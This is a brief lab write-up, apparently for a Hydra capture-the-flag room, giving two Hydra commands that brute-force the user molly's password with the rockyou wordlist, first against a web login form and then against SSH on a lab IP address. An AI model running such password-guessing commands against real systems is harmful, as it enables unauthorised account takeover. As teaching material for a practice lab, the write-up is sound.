 
# Hydra writeup

### Task 1 
#### Use Hydra to bruteforce molly's web password. What is flag 1?

- To complete first task we need to use Hydra tool. The command to bruteforce login to website will be:
**hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.184.83 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V**

### Task 2
- To complete second task we have to change our command to bruteforce SSH:
```
**hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.184.83 -t 4 ssh**
```



